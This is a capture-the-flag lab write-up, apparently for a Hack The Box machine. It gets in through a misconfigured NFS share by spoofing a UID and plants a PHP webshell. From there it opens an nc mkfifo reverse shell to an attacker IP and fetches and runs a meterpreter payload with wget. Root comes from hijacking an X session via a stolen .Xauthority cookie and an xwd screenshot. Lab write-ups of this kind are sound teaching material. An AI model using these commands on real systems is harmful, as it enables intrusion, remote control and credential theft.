

# Recon

All-tcp scan:

```bash
nmap -p- -oA scans/nmap-alltcp 10.10.11.191
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
43477/tcp open  unknown
44955/tcp open  unknown
45443/tcp open  unknown
57109/tcp open  unknown
```

Detailed scan:
```bash
nmap -p 22,80,111,2049,43477,44955,45443,57109 -sVC -oA scans/nmap-tcpdetail 10.10.11.191

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Built Better
|_http-server-header: Apache/2.4.41 (Ubuntu)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36934/udp   mountd
|   100005  1,2,3      43477/tcp   mountd
|   100005  1,2,3      50728/udp6  mountd
|   100005  1,2,3      52741/tcp6  mountd
|   100021  1,3,4      41999/tcp6  nlockmgr
|   100021  1,3,4      44955/tcp   nlockmgr
|   100021  1,3,4      51010/udp6  nlockmgr
|   100021  1,3,4      54532/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
43477/tcp open  mountd   1-3 (RPC #100005)
44955/tcp open  nlockmgr 1-4 (RPC #100021)
45443/tcp open  mountd   1-3 (RPC #100005)
57109/tcp open  mountd   1-3 (RPC #100005)
```

Endpoint enumeration:
```bash
301      GET         313c http://10.10.11.191/images => http://10.10.11.191/images/
200      GET        6121c http://10.10.11.191/images/icon-2.png
200      GET        1443c http://10.10.11.191/images/search-icon.png
200      GET        3248c http://10.10.11.191/css/owl.carousel.min.css
200      GET      140421c http://10.10.11.191/css/bootstrap.min.css
200      GET       87088c http://10.10.11.191/js/jquery.min.js
200      GET       70808c http://10.10.11.191/js/bootstrap.bundle.min.js
200      GET       45479c http://10.10.11.191/js/jquery.mCustomScrollbar.concat.min.js
200      GET      348226c http://10.10.11.191/images/img-5.png
301      GET         310c http://10.10.11.191/css => http://10.10.11.191/css/
301      GET         309c http://10.10.11.191/js => http://10.10.11.191/js/
200      GET        7381c http://10.10.11.191/css/normalize.css
200      GET       11416c http://10.10.11.191/css/default-skin.css
200      GET        1884c http://10.10.11.191/css/slick.css
200      GET        3653c http://10.10.11.191/css/nice-select.css
200      GET       11752c http://10.10.11.191/css/responsive.css
200      GET       11324c http://10.10.11.191/js/jquery-3.0.0.min.js
200      GET        9868c http://10.10.11.191/js/custom.js
200      GET       25871c http://10.10.11.191/css/bootstrap-reboot.min.css.map
200      GET       28977c http://10.10.11.191/css/bootstrap-grid.min.css
200      GET       14143c http://10.10.11.191/css/jquery.fancybox.min.css
200      GET       28414c http://10.10.11.191/css/icomoon.css
200      GET       31000c http://10.10.11.191/css/font-awesome.min.css
200      GET       37644c http://10.10.11.191/css/bootstrap-grid.css
200      GET       19190c http://10.10.11.191/js/popper.min.js
200      GET       68240c http://10.10.11.191/css/bootstrap-grid.min.css.map
200      GET       53678c http://10.10.11.191/css/animate.min.css
200      GET       97570c http://10.10.11.191/css/bootstrap-grid.css.map
200      GET      172839c http://10.10.11.191/css/bootstrap.css
200      GET      557893c http://10.10.11.191/css/bootstrap.min.css.map
200      GET      918708c http://10.10.11.191/js/plugin.js
200      GET        1803c http://10.10.11.191/images/fb-icon.png
200      GET        6788c http://10.10.11.191/images/icon-3.png
200      GET        5016c http://10.10.11.191/images/logo.png
200      GET        4908c http://10.10.11.191/images/icon-1.png
200      GET        2120c http://10.10.11.191/images/instagram-icon.png
200      GET        1384c http://10.10.11.191/images/quote-icon.png
200      GET        1864c http://10.10.11.191/images/twitter-icon.png
200      GET        5412c http://10.10.11.191/images/footer-logo.png
200      GET        1077c http://10.10.11.191/images/left-arrow.png
200      GET        5303c http://10.10.11.191/images/icon-4.png
200      GET        1996c http://10.10.11.191/images/linkedin-icon.png
200      GET       19394c http://10.10.11.191/css/style.css
200      GET       56444c http://10.10.11.191/images/img-7.png
200      GET       50898c http://10.10.11.191/images/img-8.png
200      GET      264731c http://10.10.11.191/images/img-4.png
200      GET      168650c http://10.10.11.191/images/header-bg.png
200      GET      598555c http://10.10.11.191/images/img-1.png
200      GET      377261c http://10.10.11.191/images/img-6.png
200      GET      579224c http://10.10.11.191/images/bg-1.png
200      GET      608271c http://10.10.11.191/images/img-2.png
200      GET      549018c http://10.10.11.191/images/img-9.png
200      GET     2108554c http://10.10.11.191/images/banner-bg.png
200      GET        1063c http://10.10.11.191/images/right-arrow.png
200      GET        4800c http://10.10.11.191/css/bootstrap-reboot.css
200      GET        3842c http://10.10.11.191/css/meanmenu.css
200      GET       32532c http://10.10.11.191/index.html
200      GET       35973c http://10.10.11.191/css/jquery-ui.css
200      GET       42839c http://10.10.11.191/css/jquery.mCustomScrollbar.min.css
200      GET        3937c http://10.10.11.191/css/bootstrap-reboot.min.css
200      GET       59714c http://10.10.11.191/css/bootstrap-reboot.css.map
200      GET      482108c http://10.10.11.191/images/img-3.png
200      GET       32532c http://10.10.11.191/
200      GET      425225c http://10.10.11.191/css/bootstrap.css.map
200      GET     1901591c http://10.10.11.191/images/contact-bg.png
403      GET         277c http://10.10.11.191/server-status
```

# Shell as alex
We can see a network share on port 2049.

```bash
showmount -e 10.10.11.191
Export list for 10.10.11.191:
/home/ross    *
/var/www/html *
```

We mount it under /tmp/nfs:

```bash
sudo mount -t nfs 10.10.11.191:/ ./nfs -o nolock
```

We quickly notice, that /var/www/html share is not accessible with
our current permissions. But, if the NFS is misconfigured, we can
impersonate user that has permissions to read and write to folder.

We check who owns it:

```bash
ls -ald html/
drwxr-xr--@ - 2017 22 Aug 02:40 html
```

We see it's a user with uid 2017. We can modify /etc/passwd
and set the uid of our user to this number. After launching new shell
with our new uid, we can access the directory for reading and writing.

Since we know that this directory is most likely the same we are
accessing via web application on port 80, and we have write permission
to it now, we can plant a php webshell inside and access it from the site:

```bash
kali@kali /t/n/v/w/html> nvim shell.php
kali@kali /t/n/v/w/html> ls
css/  images/  index.html  js/  shell.php
kali@kali /t/n/v/w/html> cat shell.php 
<?php system($_GET['cmd']); ?>
```

Back to the site, we can successfuly run commands:



In order to get reverse shell, we tried some bash shells
from revshells.com, but they didn't seem to work. Instead,
nc mkfifo shell worked:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.23 9001 >/tmp/f
```

After urlencoding it and sending it to our php webshell, we successfuly
obtain shell as user alex.

# Shell as root

First, in order to upgrade our shell, we will create meterpreter payload:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.23 -f elf -o backupjob LPORT=9002
sudo python -m http.server 80
```

Then we run msfconsole and type:
```bash
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
```

On target machine:
```bash
wget http://10.10.14.23/backupjob
chmod +x backupjob
./backupjob
```

Back to the files we extracted from NFS share, there are also files
belonging to other user with id of 1001; we change our id in /etc/passwd 
once again and successfuly retrieve them. Particularly interesting are
xorg files, because they mean that probably someone is logged in. 

We are interested in two files:

```
.Xauthority
.xsession-errors
```

.Xauthority contains a session cookie with which we can authenticate to
the session, and .xsession-errors can give us useful information about the session.

First we use python server to transport .Xauthority file to target machine, and point
the environmental variable to it:

```bash
export XAUTHORITY=/home/alex/.Xauthority
```

We want to take a screenshot in order to see what is on the logged-in user screen.
We can do that using xwd command. It will look like that:

```bash
xwd -root -screen -silent -display <display> > /tmp/screen.xwd
```

As we can see, we will need the display id in order to execute it:

```bash
cat xsession-errors
...
dbus-update-activation-environment: setting DISPLAY=:0
...
```

We run the command:

```bash
xwd -root -screen -silent -display <display> > /tmp/screen.xwd
```

Then we use our meterpreter session to download the file (python server should also work):

```bash
download /tmp/screen.xwd
```

After that, we can see root password in plaintext on the acquired screenshot.
We su as root, and read the flag.
